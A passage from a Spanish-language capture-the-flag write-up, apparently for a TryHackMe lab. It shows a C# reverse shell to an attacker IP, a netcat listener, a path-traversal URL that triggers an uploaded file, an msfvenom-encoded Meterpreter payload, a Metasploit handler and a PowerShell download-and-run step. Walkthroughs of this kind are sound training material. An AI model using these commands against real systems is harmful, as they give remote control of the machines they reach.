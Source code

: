 Como podemos ver tenemos unas variables que cambiar : using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 4445)) {
		using(System.IO.Stream stream = client.GetStream()) {

En mi caso mi ip y puerto

```
rlwrap nc -lvnp 4445
```

Nos dirigimos como hemos dicho anteriormente a un post y añadimos en el file manager.

![image](https://github.com/user-attachments/assets/0ee6f607-0e40-4218-9a05-fdf886164da7)

Una vez añadido ya podemos irnos a la ruta anteriormente especificada "http://10.10.10.10/?theme=../../App_Data/files"

![image](https://github.com/user-attachments/assets/f61a834e-ceb2-4cd1-b5ab-330a16acf226)

Estamos dentro

## Upgradear Shell

Ahora nos toca generar una rev shell con metasploit.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```
Por otro lado deberemos estar en escucha con metasploit

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-thm-ip 
set LPORT listening-port run
```

Ya tenemos todo para poder descargar y ejecutar dicho payload, primero de todo yo recomendaria ir a la carpeta C:\Windows\Temp para asegurarnos de ningun problema con permisos.

```
powershell -c "Invoke-WebRequest -Uri URL -OutFile FILENAME"
```

![image](https://github.com/user-attachments/assets/d059262b-831b-4b7d-a650-fdfed21955d0)

Una vez lo tenemos dentro lo ejecutamos

```
.\shell.exe
```

![image](https://github.com/user-attachments/assets/49a76423-f32f-4c8c-99c3-90a4ecab844e)

Seguimos con las answers:

```
sysinfo
```

